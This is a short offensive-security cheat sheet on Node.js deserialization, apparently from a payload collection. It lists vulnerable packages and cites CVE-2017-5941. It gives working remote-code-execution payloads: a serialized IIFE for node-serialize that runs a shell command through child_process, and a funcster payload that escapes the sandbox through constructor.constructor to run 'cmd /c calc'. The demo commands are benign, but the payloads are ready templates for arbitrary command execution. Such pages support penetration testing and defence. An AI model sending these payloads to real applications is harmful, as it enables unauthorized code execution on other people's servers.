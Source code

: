 # Node Deserialization

> Node.js deserialization refers to the process of reconstructing JavaScript objects from a serialized format, such as JSON, BSON, or other formats that represent structured data. In Node.js applications, serialization and deserialization are commonly used for data storage, caching, and inter-process communication.


## Summary

* [Methodology](#methodology)
    * [node-serialize](#node-serialize)
    * [funcster](#funcster)
* [References](#references)


## Methodology

* In Node source code, look for:
    * `node-serialize`
    * `serialize-to-js`
    * `funcster`


### node-serialize

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

1. Generate a serialized payload
    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```
2. Add bracket `()` to force the execution
    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```
3. Send the payload


### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```


## References

- [CVE-2017-5941 - National Vulnerability Database - February 9, 2017](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)
- [Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941) - Ajin Abraham - October 31, 2018](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
- [NodeJS Deserialization - gonczor - January 8, 2020](https://blacksheephacks.pl/nodejs-deserialization/)